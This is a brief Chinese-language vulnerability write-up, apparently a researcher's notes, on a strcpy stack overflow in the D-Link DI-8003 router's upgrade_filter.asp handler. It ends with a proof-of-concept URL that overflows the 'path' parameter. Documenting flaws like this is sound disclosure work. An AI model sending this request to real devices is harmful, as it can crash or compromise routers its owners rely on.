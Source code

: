 # Dlink_DI8003_stackoverflow


![](vx_images/205947312232195.png)

v15大小为512，这里v10和v11都是从前端取得的参数。
![](vx_images/574514934492607.png)

但需要过前提条件，opt参数中有get和set字符串。


---

strcpy造成栈溢出
![](vx_images/50468960878745.png)


```
http://192.168.0.1/upgrade_filter.asp?path=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```










---
